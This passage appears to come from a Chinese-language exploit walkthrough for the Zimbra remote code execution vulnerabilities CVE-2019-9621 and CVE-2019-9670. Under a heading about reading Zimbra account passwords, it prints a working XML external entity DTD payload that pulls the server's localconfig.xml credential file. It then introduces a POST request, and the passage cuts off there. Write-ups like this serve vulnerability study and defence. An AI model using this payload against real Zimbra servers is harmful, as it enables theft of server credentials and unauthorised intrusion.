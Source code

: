 ![1.png](resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId25.png)

### 第二步：读取zimbra用户账号密码

> dtd文件内容如下：

    <!ENTITY % file SYSTEM "file:../conf/localconfig.xml">  
    <!ENTITY % start "<![CDATA["> 
    <!ENTITY % end "]]>">  
    <!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>"> 

> POST请求包如下：
